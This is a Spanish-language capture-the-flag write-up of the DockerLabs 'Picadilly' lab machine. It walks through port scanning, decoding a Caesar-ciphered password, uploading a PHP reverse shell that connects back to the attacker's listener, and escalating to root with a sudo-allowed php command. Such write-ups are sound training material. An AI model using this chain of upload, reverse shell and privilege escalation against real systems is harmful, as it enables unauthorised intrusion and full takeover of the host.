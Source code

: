 ```yaml
---
title: DockerLabs Writeup Picadilly
published: true
---
```


![logo](../assets/images-Picadilly/logo.png)

-----------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:02 -03
Initiating ARP Ping Scan at 21:02
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 21:02, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:02
Scanning 10.88.0.2 [65535 ports]
Discovered open port 443/tcp on 10.88.0.2
Discovered open port 80/tcp on 10.88.0.2
Completed SYN Stealth Scan at 21:02, 0.86s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-07-24 21:02:18 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Como vemos encontramos el puerto 80 y 443 estos dos puertos tienen una pagina web
```bash
❯ nmap -p80,443 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:04 -03
Nmap scan report for 10.88.0.2
Host is up (0.000045s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Vamos a la pagina web por el puerto 80 donde tenemos capacidad de directory listing que tiene un recurso llamado backup.txt

![Pasted image 20240724210723.png](../assets/images-Picadilly/Picadilly1.png)

Este recurso vemos que hay una contraseña que esta en cifrado cesar 

![Pasted image 20240724210859.png](../assets/images-Picadilly/Picadilly2.png)

A esto lo podemos descifrar de la siguiente manera
```bash
❯ echo "hdvbfuadcb" | tr 'a-z' 'x-za-w'
easycrxazy
```
y si queremos practicar un poquito de scripting en bash podemos realizar el siguiente script, para probar todas las combinatorias de desplazamiento e ir viendo los mensajes desencriptados 


```bash
 encrypted_message="hdvbfuadcb" 
 for shift in {1..25}; do echo -n "Desplazamiento $shift: " echo "$encrypted_message" | tr $(echo {a..z} | sed -r 's/ //g') $(echo {a..z} | sed -r "s/ //g;s/(.{$shift})(.*)/\2\1/") 
done
```
Lo ejecutamos
```bash
❯ ./decrypt.sh
Desplazamiento 1: hdvbfuadcb
Desplazamiento 2: iewcgvbedc
Desplazamiento 3: jfxdhwcfed
Desplazamiento 4: kgyeixdgfe
Desplazamiento 5: lhzfjyehgf
Desplazamiento 6: miagkzfihg
Desplazamiento 7: njbhlagjih
Desplazamiento 8: okcimbhkji
Desplazamiento 9: pldjncilkj
Desplazamiento 10: qmekodjmlk
Desplazamiento 11: rnflpeknml
Desplazamiento 12: sogmqflonm
Desplazamiento 13: tphnrgmpon
Desplazamiento 14: uqioshnqpo
Desplazamiento 15: vrjptiorqp
Desplazamiento 16: wskqujpsrq
Desplazamiento 17: xtlrvkqtsr
Desplazamiento 18: yumswlruts
Desplazamiento 19: zvntxmsvut
Desplazamiento 20: awouyntwvu
Desplazamiento 21: bxpvzouxwv
Desplazamiento 22: cyqwapvyxw
Desplazamiento 23: dzrxbqwzyx
Desplazamiento 24: easycrxazy
Desplazamiento 25: fbtzdsybaz
```
Veremos si esta contraseña va en la otra pagina web que corre por el puerto 443, pero como vemos no hay pagina de login pero si de subida de archivos 

![Pasted image 20240724215121.png](../assets/images-Picadilly/Picadilly3.png)

Probaremos esta subida de archivo para ver si nos deja subir un php malicioso que nos otorgue una reverse shell o nos permita ejecutar comando, veremos que nos reporta whatweb sobre esta pagina


```bash
❯ whatweb https://10.88.0.2:443
https://10.88.0.2:443 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.88.0.2], Title[Picadilly]
```
Vemos que nos descubre gran cosa por lo que procedemos a subir un php malicioso que nos otorgue  una reverse shell, vamos a github y descargamos [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) y lo editamos con nuestra Ip y puerto de escucha

![Pasted image 20240724221912.png](../assets/images-Picadilly/Picadilly4.png)

ahora subimos el archivo y nos ponemos en escucha por el puerto 443

![Pasted image 20240724222013.png](../assets/images-Picadilly/Picadilly5.png)

Vemos que el archivo se sube pero no, nos lo interpreta por lo tanto probamos si es que hay una ruta llamda uploads, vemos que efectivamente si existe

![Pasted image 20240724222923.png](../assets/images-Picadilly/Picadilly6.png)

Una vez que clickeamos el archivo que subimos vermos que nos otorga una reverse shell


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.10.111] from (UNKNOWN) [10.88.0.2] 51338
Linux eae50915364f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 01:28:47 up  2:02,  0 user,  load average: 0.12, 0.35, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
ahora hacemos un tratamiento de la tty
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eae50915364f:/$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

#### Privelege Escalation
Tenemos el usuario mateo y como de antes desciframos su contraseña vamos a pivotar a este usuario
```bash
www-data@eae50915364f:/home$ ls
mateo
```
A la contraseña debemos hacerle un pequeño cambio, esto tienen que hacerlo con pura intuicion
```bash
www-data@eae50915364f:/home$ su mateo
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo  
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo 
Password: 
mateo@eae50915364f:/home$ 
```
Ahora veremeos como hacemos para escalar a root

### Root
Vemos que tenemos capacidad para ejecutar el comando php como sudo, y a esto lo vamos a estar ejecutando como root
```bash
mateo@eae50915364f:/home$ id
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo@eae50915364f:/home$ sudo -l 
Matching Defaults entries for mateo on eae50915364f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on eae50915364f:
    (ALL) NOPASSWD: /usr/bin/php
mateo@eae50915364f:/home$ 
```
Si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) vemos que podemos escribir el siguiente comando para darnos una bash como root
![Pasted image 20240724224506.png](../assets/images-Picadilly/Picdailly7.png)
entonces ejecutamos este comando que va a crear una variable CMD lo que va hacer es que vale /bin/bash luego ejecutando el privilegio sudo va hacer una llamada a nivel de sistema a esta variable CMD
```bash
mateo@eae50915364f:/home$ CMD="/bin/bash"
sudo php -r "system('$CMD');"
root@eae50915364f:/home# whoami
root
root@eae50915364f:/home# 
```
